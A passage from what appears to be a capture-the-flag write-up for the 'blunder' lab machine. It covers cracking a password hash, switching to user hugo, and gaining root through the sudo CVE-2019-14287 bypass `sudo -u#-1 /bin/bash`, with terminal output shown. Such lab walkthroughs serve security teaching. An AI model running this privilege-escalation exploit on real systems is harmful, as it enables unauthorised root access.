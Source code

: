 Let's copy the hash to our machine and crack it. After cracking it, we can now change our current user to Hugo with `su hugo` and supply the password we managed to crack.

## root

Now that we have a password, let's do some enumeration.

```terminal
hugo@blunder:~$ sudo -l
Password:
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
hugo@blunder:~$
```

We can execute /bin/bash as any user but not as root. There is a vulnerable version of `sudo` where we can  execute arbitrary commands as root user even in cases where the root access is disallowed. Refer to this [article](https://www.whitesourcesoftware.com/resources/blog/new-vulnerability-in-sudo-cve-2019-14287/) for more information.

So what we can do is execute `sudo -u#-1 /bin/bash` and become root.

```terminal
hugo@blunder:~$ sudo -u#-1 /bin/bash
root@blunder:/home/hugo# whoami
root
```


Thank you for taking the time to read my writeup, I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :) .
